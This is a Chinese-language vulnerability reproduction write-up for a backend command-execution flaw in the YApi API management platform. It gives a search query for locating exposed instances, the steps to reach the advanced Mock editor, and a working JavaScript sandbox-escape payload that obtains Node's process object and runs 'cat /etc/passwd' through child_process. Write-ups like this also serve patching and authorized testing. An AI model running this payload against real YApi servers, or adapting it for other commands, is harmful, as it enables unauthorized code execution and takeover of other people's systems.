 # YApi 接口管理平台 后台命令执行漏洞

## 漏洞描述

YApi 接口管理平台 后台存在命令执行漏洞，攻击者通过发送特定的请求可执行任意命令获取服务器权限

## 漏洞影响

```
YApi 接口管理平台
```

## 网络测绘

```
app="YApi"
```

## 漏洞复现

登录页面

![](./images/202202091829002.png)



首先需要注册账户并登录



![](./images/202202091829520.png)



![](./images/202202091829602.png)



添加项目，参数任意



创建后点击 高级Mock 输入如下Payload



```javascript
const sandbox = this; // 获取Context
const ObjectConstructor = this.constructor; // 获取 Object 对象构造函数
const FunctionConstructor = ObjectConstructor.constructor; // 获取 Function 对象构造函数
const myfun = FunctionConstructor('return process'); // 构造一个函数，返回process全局变量
const process = myfun();
mockJson = process.mainModule.require("child_process").execSync("cat /etc/passwd").toString()
```



![](./images/202202091830184.png)



预览处点击项目链接



![](./images/202202091830086.png)